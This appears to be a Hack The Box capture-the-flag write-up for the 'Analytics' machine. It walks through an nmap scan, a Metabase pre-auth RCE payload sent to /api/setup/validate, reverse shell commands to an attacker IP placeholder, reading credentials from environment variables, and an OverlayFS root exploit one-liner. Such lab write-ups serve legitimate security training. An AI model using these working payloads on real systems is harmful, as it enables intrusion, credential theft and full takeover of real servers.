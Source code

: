 # This is a writeup for the Analytics CTF from htb labs

## Recon

#### Nmap scan "the fastest and most effective scan for CTF labs"

```
sudo nmap 10.10.11.233 --min-rate 3000 -sS -sV -sC -Pn -T5 


Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-14 11:04 BST
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

<!-- we got two open ports 22 for ssh and 80 for a webserver labeled "Analytical" -->

## Enum

#### this page "http://data.analytical.htb/auth/login?redirect=%2F" seems to have a vuln of severe RCE at  metabase version 0.46.6

###### when we make an inital request to this page 

![Screenshot at 2023-10-14 11-23-13](https://github.com/shanksbeard/Analytics-HTB-writeup/assets/147916074/7e627aa3-029b-405b-a996-3a3b01472c88)

<!--  it gave us a setup-token that enables us to  post our RCE payload to the api "/api/setup/validate" -->

## Exploit 1 : RCE

#### Start a netcat listener 

```nc -lnvp 4444``` <!-- or any port of your choice --> 

### Here is the payload request made to this api /api/setup/validate 
```
POST /api/setup/validate HTTP/1.1
Host: 10.10.11.233 
Content-Type: application/json

{
 "token": "put the setup token here ",
 "details": {
  "is_on_demand": false,
  "is_full_sync": false,
  "is_sample": false,
  "cache_ttl": null,
  "refingerprint": false,
  "auto_run_queries": true,
  "schedules": {},
  "details": {
   "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(Put your RCE revshell payload just here)\n$$--=x",
   "advanced-options": false,
   "ssl": true
  },
  "name": "test",
  "engine": "h2"
 }
}
```

#### for me it seems this basic busybox revshell payload to work just fine

```busybox nc <Attacker IP add> 4444 -e sh ```  <!-- remember you can put any unstandard  port. --> 

###### we could do this trick to stabilize the revshell and also good  to replace python pty command
```
echo 'sh -i >& /dev/tcp/<Attacker IP add>/4445 0>&1' > /tmp/a.sh
bash /tmp/a.sh
```
#### after some basic enumeration got the /bin/ash users as well some ssh creds at env variables 
```
root:x:0:0:root:/root:/bin/ash
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
META_USER=metalytics
META_PASS=*************** # to get the password practice what we have done.
```
-------------------------------------------------------------------------------------------------------------------------
```
ssh metalytics@analytical.htb 
metalytics@analytical.htb's password: 
metalytics@analytics:~$ 
```
###### Great, well done !!!

<!-- the root seems to be active  -->
```
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```
## Privesc:

<!-- the kernel version seems to be vuln "6.2.0" to these OverlayFS CVEs "CVE-2023-2640 CVE-2023-32629 "
# here is a little hint from the creators "overlay on /var/lib/docker/overlay2/957463a5867e5" thank you htb labs team <3
# you can check out the vuln in fully here "https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability"
-->
### here is the payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## just put it as command line in the shell and 
```
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
## boom you are the root !!! you made it.
